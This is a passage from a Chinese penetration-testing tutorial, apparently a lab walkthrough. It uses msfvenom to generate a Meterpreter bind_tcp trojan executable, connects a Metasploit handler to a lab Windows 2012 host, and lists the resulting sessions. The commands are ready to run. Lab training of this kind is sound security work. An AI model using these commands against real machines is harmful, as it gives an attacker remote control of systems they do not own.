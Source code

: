 ## 3.3. Windows 2012上线

这里和上面`Windows 2003`操作流程是一样的，没太多可说的。

### 3.3.1. 生成木马

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe > 2012.exe
```

![image-20230518162415772](assets/QJI7ULs5ZfbrzW2.png)

### 3.3.2. 设置监听

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.30.20    ##目标地址
set lport 3333
run
```

![image-20230518163206872](assets/uJ89YvBeiWKPXmA.png)

### 3.3.3. 查看后台会话

```
sessions
```

![image-20230518163238994](assets/sUeEgV5PkB6813x.png)

# 4. 总结

各位看这可能有点恍惚，实际环境中真的有那么顺吗？其实不然，实际的环境中可能更复杂，这里只是将这个复杂的内容，分为单方面来说，所以看似容易，当所有单方面说完，综合起来肯定就比较复杂了。